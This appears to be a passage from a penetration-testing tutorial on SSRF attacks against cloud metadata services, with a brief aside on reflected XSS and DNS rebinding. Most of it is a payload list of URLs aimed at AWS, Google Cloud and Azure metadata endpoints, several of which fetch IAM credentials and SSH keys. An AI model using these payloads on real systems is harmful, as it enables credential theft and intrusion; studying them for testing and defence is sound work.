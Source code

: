 ## Cloud Metadata
- There are various vendors that provide cloud computing services such as AWS, Azure, Google Cloud, Digital Ocean, etc. where these vendors provide Metadata access using REST API, but the REST API can only be accessed through the cloud network.

- If a vulnerable SSRF web application is deployed in one of those Cloud Services, it will be very possible for an attacker to access Metadata information by exploiting the SSRF vulnerability.

```php
AWS:
vulnerablesite.com/file/?url=http://instance-data
vulnerablesite.com/file/?url=http://169.254.169.254
vulnerablesite.com/file/?url=http://169.254.169.254/latest/user-data
vulnerablesite.com/file/?url=http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/ami-id
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/reservation-id
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/hostname
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/public-keys/
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
vulnerablesite.com/file/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
vulnerablesite.com/file/?url=http://169.254.169.254/latest/dynamic/instance-identity/document

Google Cloud:
vulnerablesite.com/file/?url=http://169.254.169.254/computeMetadata/v1/
vulnerablesite.com/file/?url=http://metadata.google.internal/computeMetadata/v1/
vulnerablesite.com/file/?url=http://metadata/computeMetadata/v1/
vulnerablesite.com/file/?url=http://metadata.google.internal/computeMetadata/v1/instance/hostname
vulnerablesite.com/file/?url=http://metadata.google.internal/computeMetadata/v1/instance/id
vulnerablesite.com/file/?url=http://metadata.google.internal/computeMetadata/v1/project/project-id

Azure:
vulnerablesite.com/file/?url=http://169.254.169.254/metadata/v1/maintenance
vulnerablesite.com/file/?url=http://169.254.169.254/metadata/instance?api-version=2017-04-02
vulnerablesite.com/file/?url=http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```
![](https://miro.medium.com/max/803/0*isNH_QDDzHtCYP3m.JPG)

## Reflected XSS
- Reflected XSS can occur if you are not faced with Blind SSRF.
- XSS on Blind SSRF can happen if the requestster supports javascript, for examples like PhantomJS and Selenium, then it’s not impossible for an attacker to do a DNS Rebinding Attack to “play” with internal services/networks.
